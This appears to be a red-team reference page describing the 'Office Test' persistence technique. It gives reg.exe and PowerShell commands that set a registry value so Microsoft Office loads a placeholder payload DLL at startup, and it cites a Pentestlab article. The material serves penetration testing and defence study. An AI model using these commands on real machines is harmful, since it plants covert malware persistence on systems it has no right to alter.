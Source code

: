 # Microsoft Office Test

## 01 - Command Prompt

```
C:\> reg.exe add "[\\<IP>\]HKCU\SOFTWARE\Microsoft\Office Test\Special\Perf" /t REG_SZ /d "C:\path\to\payload.dll" /f
```

## 02 - PowerShell

```
PS C:\> Set-ItemProperty -Force -Path Registry::HKEY_CURRENT_USER:"\SOFTWARE\Microsoft\Office Test\Special\Perf" -Type String -Value "C:\path\to\payload.dll"
```

---
## References

### Pentestlab

- [Pentestlab: Persistence - Office Application Startup](https://pentestlab.blog/2019/12/11/persistence-office-application-startup/)